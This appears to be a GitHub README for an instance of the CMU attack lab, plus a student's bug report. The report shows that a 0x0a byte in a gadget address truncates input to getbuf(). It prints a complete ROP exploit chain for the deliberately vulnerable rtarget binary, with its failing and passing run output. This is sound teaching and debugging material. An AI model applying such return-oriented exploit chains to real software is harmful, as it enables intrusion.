 ## Handout

This file contains materials for one instance of the attacklab.

Files:

    ctarget

Linux binary with code-injection vulnerability.  To be used for phases
1-3 of the assignment.

    rtarget

Linux binary with return-oriented programming vulnerability.  To be
used for phases 4-5 of the assignment.

     cookie.txt

Text file containing 4-byte signature required for this lab instance.

     farm.c

Source code for gadget farm present in this instance of rtarget.  You
can compile (use flag -Og) and disassemble it to look for gadgets.

     hex2raw

Utility program to generate byte sequences.  See documentation in lab
handout.

## Bug Report by L1997i

In rtarget **Phase 3** of *Attack Lab* ***[Updated 1/11/16]***, which involving a code injection attack, if some of students want to use a return address containing `0x0a` in their target injection codes, then `getbuf()` may parse `0x0a` as `newline` which leads to **termination of the injection codes behind**. Since each students in CMU has their only attack targets which are built **automatically**, if some of the targets are built with address in gadgets farm they need containing `0x0a`, it will unfortunately stop students from implementing injection attacks.

## Steps to reproduce bug

1. My injection attacks solution in asm code

   ```asm
   movq %rsp, %rax
   movq %rax, %rdi
   popq %rax 			# %rax = $0x48 after popping
   movl %eax, %edx
   movl %edx, %ecx
   movl %ecx, %esi
   lea (%rdi, %rsi, 1), %rax
   movq %rax, %rdi
   # call <touch3>
   # store cookie here
   ```

2. `objdump -d rtarget > rtarget.s`. Following is part of codes in `rtarget.s` Here I want to add `%rdi` and` %rsi` to `%rax`, so I will have the beginning address of `<add_xy>` (`0x401b0a`) in my injection codes. 

   ```asm
   0000000000401b04 <mid_farm>:
     401b04:	b8 01 00 00 00       	mov    $0x1,%eax
     401b09:	c3                   	retq   
   
   0000000000401b0a <add_xy>:
     401b0a:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
     401b0e:	c3                   	retq   
   ```


3. Then I got my injection codes as follow, saving as `rp5.txt`.

   ```asm
   55 55 55 55 55 55 55 55     /* padding content */
   44 44 44 44 44 44 44 44     /* padding content */
   33 33 33 33 33 33 33 33     /* padding content */
   22 22 22 22 22 22 22 22     /* padding content */
   11 11 11 11 11 11 11 11     /* padding content */
   70 1b 40 00 00 00 00 00     /* RA1: 0x401b70 - movq %rsp, %rax */
   d6 1a 40 00 00 00 00 00     /* RA2: 0x401ad6 - movq %rax, %rdi */
   f4 1a 40 00 00 00 00 00     /* RA3: 0x401af4 - popq %rax */
   48 00 00 00 00 00 00 00     /* cookie addr offsets - %rax = $0x48 afer popping */
   26 1b 40 00 00 00 00 00     /* RA4: 0x401b26 - movl %eax, %edx */
   ac 1b 40 00 00 00 00 00     /* RA5: 0x401bac - movl %edx, %ecx */
   b3 1b 40 00 00 00 00 00     /* RA6: 0x401bb3 - movl %ecx, %esi */
   0a 1b 40 00 00 00 00 00     /* RA7: 0x401b0a - lea (%rdi, %rsi, 1), %rax */
   d6 1a 40 00 00 00 00 00     /* RA8: 0x401ad6 - movq %rax, %rdi */
   32 1a 40 00 00 00 00 00     /* RA: 0x401a32<touch3> */
   34 63 39 32 61 65 36 38     /* cookie */
   00 00 00 00 00 00 00 00     /* cookie end flag(0x00) */
   ```

4. run `./hex2raw < rp5.txt > rp5`, and test with ` ./rtarget -qi rp5`, here is the result:

   ```asm
   Cookie: 0x4c92ae68
   Ouch!: You caused a segmentation fault!
   Better luck next time
   FAIL: Would have posted the following:
           user id 1551044@student.hcmus.edu.vn
           course  15213-f15
           lab     attacklab
           result  37:FAIL:0xffffffff:rtarget:0:55 55 55 55 55 55 55 55 44 44 44 44 44
   44 44 44 33 33 33 33 33 33 33 33 22 22 22 22 22 22 22 22 11 11 11 11 11 11 11 11 70
   1B 40 00 00 00 00 00 D6 1A 40 00 00 00 00 00 F4 1A 40 00 00 00 00 00 48 00 00 00 00 
   00 00 00 26 1B 40 00 00 00 00 00 AC 1B 40 00 00 00 00 00 B3 1B 40 00 00 00 00 00 
   ```

5. As we can see in the result, the injection codes after `0x0a` **has been terminated**, `getbuf()` only catch codes before `0x0a`. In this case `B3 1B 40 00 00 00 00 00` is the last return address.

    


## Avoid having the return address containing `0x0a`


To further confirm my conjecture, I modify my `rtarget` in binary form by `Synalyze It! Pro` (a tool on MacOS). Following is what I have done: 

1. Remove 1 byte in `0x401b08` which has the value `0x00` in it, and add  the value `0x90`(nop, doing nothing) before `0xc3` in `<add_xy>`. By doing so, the beginning address of `<add_xy>` moves forward by 1 bytes, but ends at the same address. Save the file as `rtarget_modified`.

2. `objdump -d rtarget_modified > rtarget_modified.s`. The `<add_xy>` function in `rtarget_modified.s` file is as follow:

   ```asm
   0000000000401b04 <mid_farm>:
     401b04:	b8 01 00 00 c3       	mov    $0xc3000001,%eax
     401b09:	48                   	rex.W
   
   0000000000401b0a <add_xy>:
     401b0a:	8d 04 37             	lea    (%rdi,%rsi,1),%eax
     401b0d:	90                   	nop
     401b0e:	c3                   	retq   
   ```

3.  After modification, the beginning address of `<add_xy>` function has been modified to `0x401b09`, which doesn't contain `0x0a` in it, so my injection codes modified as follow, saving as `rp5_modified.txt`.

```asm
55 55 55 55 55 55 55 55     /* padding content */
44 44 44 44 44 44 44 44     /* padding content */
33 33 33 33 33 33 33 33     /* padding content */
22 22 22 22 22 22 22 22     /* padding content */
11 11 11 11 11 11 11 11     /* padding content */
70 1b 40 00 00 00 00 00     /* RA1: 0x401b70 - movq %rsp, %rax */
d6 1a 40 00 00 00 00 00     /* RA2: 0x401ad6 - movq %rax, %rdi */
f4 1a 40 00 00 00 00 00     /* RA3: 0x401af4 - popq %rax */
48 00 00 00 00 00 00 00     /* cookie addr offsets - %rax = $0x48 afer popping */
26 1b 40 00 00 00 00 00     /* RA4: 0x401b26 - movl %eax, %edx */
ac 1b 40 00 00 00 00 00     /* RA5: 0x401bac - movl %edx, %ecx */
b3 1b 40 00 00 00 00 00     /* RA6: 0x401bb3 - movl %ecx, %esi */
09 1b 40 00 00 00 00 00     /* RA7: 0x401b09 - lea (%rdi, %rsi, 1), %rax */
d6 1a 40 00 00 00 00 00     /* RA8: 0x401ad6 - movq %rax, %rdi */
32 1a 40 00 00 00 00 00     /* RA: 0x401a32<touch3> */
34 63 39 32 61 65 36 38     /* cookie */
00 00 00 00 00 00 00 00     /* cookie end flag(0x00) */
```

4. run `./hex2raw < rp5_modified.txt > rp5_modified`, and then test with ` ./rtarget_modified -qi rp5_modified`, here is the result:

   ```asm
   Cookie: 0x4c92ae68
   Touch3!: You called touch3("4c92ae68")
   Valid solution for level 3 with target rtarget
   PASS: Would have posted the following:
           user id 1551044@student.hcmus.edu.vn
           course  15213-f15
           lab     attacklab
           result  37:PASS:0xffffffff:rtarget:3:55 55 55 55 55 55 55 55 44 44 44 44 44
   44 44 44 33 33 33 33 33 33 33 33 22 22 22 22 22 22 22 22 11 11 11 11 11 11 11 11 70
   1B 40 00 00 00 00 00 D6 1A 40 00 00 00 00 00 F4 1A 40 00 00 00 00 00 48 00 00 00 00
   00 00 00 26 1B 40 00 00 00 00 00 AC 1B 40 00 00 00 00 00 B3 1B 40 00 00 00 00 00 09
   1B 40 00 00 00 00 00 D6 1A 40 00 00 00 00 00 32 1A 40 00 00 00 00 00 34 63 39 32 61
   65 36 38 00 00 00 00 00 00 00 00 
   ```

5.    The result says it's a valid solution after modifying the address of `<add_xy>` function. Since each students has their only attack targets in CMU, which are built **automatically**, if the targets are built with some of its address in gadgets farm containing `0x0a`, it will stop students from implementing injection attacks.
